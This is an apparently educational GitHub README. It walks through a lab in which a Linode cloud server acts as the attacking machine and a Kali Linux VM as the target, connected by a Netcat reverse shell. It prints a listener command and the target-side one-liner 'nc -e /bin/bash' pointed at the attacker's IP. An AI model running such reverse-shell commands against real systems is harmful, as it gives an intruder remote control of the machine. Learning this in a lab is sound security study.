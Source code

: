 <h2><p align="center">Reverse Shell</h2>

<h3><p align="center">*ONLY FOR EDUCATIONAL PURPOSES ONLY*</h3>

<h4><p align="center">Welcome! This repository is your gateway to understanding reverse shells on Linux. If you're new to cybersecurity or curious about remote access methods, you're in the right place. We'll explain reverse shells in simple terms, empowering you to navigate this crucial aspect of digital security with confidence. For this lesson, I will be referring to NetworkChuck's video on how to setup a Cloud enviroment for the attacking machine and our target machine. After this lesson, you will understand the importance and reason behind reverse shells. </h4>

[Video](https://www.youtube.com/watch?v=bXCeFPNWjsM&t=267s)
***


<h3>What are Reverse Shell's?</h3>

Reverse shells are a type of shell session where a target machine connects back to an attacker's machine, rather than the other way around. This is typically used in scenario's where the target machine is behind a firewall or NAT and cannot accept incoming connections.

<p align="center">
<img src="https://i.imgur.com/XrJlchM.png" alt="Login"/>
</p>

Here is a Step-by-Step on how it works
1. The **attacker** compromises the **target** machine and injects code that establishes a connection to a remote system controlled by the **attacker**.
2. Once that connection has established, the **attacker** can now gain access thru the shell on the **target** machine. This allows them to execute commands and interact with the system as if it had physical access to it.
3. This connection is typically encrypted to prevent detection and interception by security measures.

In this lab, we'll also explore the use of Netcat for creating reverse shells. Netcat (a hackers swiss army knife), a versatile networking tool, acts like a direct line between computers. Think of it as setting up a secret phone call where the target computer calls back to the attacker's system. This enables hackers to gain remote access and control over the target, just like having a direct line to the computer's command center.

***

<h4><p align="center"><u>Tools you'll need</u></h4>

1. A computer for **target** machine
2. Cloud enviroment for **attacking** machine (*I will be using Linode, if you create an account right now and verify, you will get $100 credit to use*)

<p align="center">
<img src="https://i.imgur.com/mqhC9Sv.png" alt="Login"/>
</p>
   
4. [Virtual Box](https://www.virtualbox.org/wiki/Downloads) (*I will be using KaliLinux*)

<p align="center">
<img src="https://i.imgur.com/O0tsgnK.png" alt="Login"/>
</p>
 
5. Eagerness to learn!

***

<h4><u>Starting with Linode</u></h4>

<i><p align="center">Once you've created your Linode account and received the free $100 credit post-verification, this is how you will set it up.</i>

You will navigate to the top left of the page and look for "Create". Click on the drop down arrow next to it and select "Linode" -> For the distribution, click on "Ubuntu 18.04 LTS" -> Click on the nearest region next to you after that -> click on "Shared CPU" which is under the Linode plan section -> Click on the "Nanode 1GB" option (*Should read with a $5 Monthly charge*) -> After selection, name your Linode and set Root Password -> Then click "Create". 

Once you've setup your Linode, look at the top right underneath the name of the Linode and wait for it to say "Running" with a green circle next to it. This will confirm that your cloud enviroment is now stable and active to run.

<u><h4>Time to Login</h4></u>

*<i><p align="center">Now that we have our Linode setup, its time to login into the enviroment.</i>*

!. Look for your SSH Access and copy it. *(Look at the right side of the top portion of the Linode page and look for Access -> SSH Access)*
2. Open Command Prompt and type in this following command.
```bash
# Command to copy
ssh root@"fill in with your SSH Access"
```
3. Once you've entered the command line and press enter, it will prompt with "Are you sure you want to continue connecting?". Type "yes", then type your Root password. Then VIOLA! you're connected.

*<i><p align="center">Now lets understand NetCat</i>*

<p align="center">
<img src="https://i.imgur.com/X2sDSwc.png" alt="Login"/>
</p>

1. To go ahead and first check if NetCat is installed, type in the command line "nc"
 ```bash
# Command to copy
nc
```
2. Now going forward, since we are using NetCat to reverse shell, we have to make sure both clients both have NetCat installed. In this matter, since both are Linux machines, they both already come with NetCat installed.
3. Now we are going to use this command to see if it is listening.When picking the port, use a port # that is below 1000. L = Listen, N = IP Address Only, V = Verbose, P = Port
 ```bash
# Command to copy
nc -lvnp "port #" -s "Ip address from Linode"
```
Example: nc -lnvp 87 -s 192.168.1.1

4. Now once you've completed that part, it should prompt with a command line that is listening on that IP.

*<i><p align="center">Now let's set up the **target** machine in KaliLinux</i>*

<p align="center">
<img src="https://i.imgur.com/ctVa9B7.jpeg" alt="Login"/>
</p>

1. Open Kali Linux and click on the Terminal on the top right.
2. Type in this command
 ```bash
# Command to copy
nc -e /bin/bash "IP Address of Attacker/Cloud Machine"
```
3. Press enter and go back to Command Prompt Terminal. See what happens.
4. Try out some commands such as
 ```bash
# Command to copy
whoami   
```

 ```bash
# Command to copy
ls  
```

 ```bash
# Command to copy
uname -a  
```
<h3><p align="center">Overview of what we've learned!</h3>

<h4><p align="center">After you've completed this whole tutorial, mess around and see the benefits and powers of reverse shell. As powerful and cool it is, use it RESPONSIBLY. This lesson is for educational purposes and not inteded for malicious purposes. Ethical hacking is an amazing practice and helps you understand how to protect yourself more and more everyday.</h4>

*Remember, to not be charged by Linode:*

--> To remove a Linode from your account, click the Linodes tab, and then select the Remove link next to the Linode you want to remove.

--> To remove extras from your account, click the Linodes tab, select a Linode, click the Extras tab, and then select the Remove link.

--> To remove a NodeBalancer from your account, click the NodeBalancers tab, and then select the Remove link next to the NodeBalancer you want to remove.

--> To remove the Linode Backup Service, go to the Backups tab in your Linode’s Dashboard, and click the Cancel Backups link at the bottom of the page.
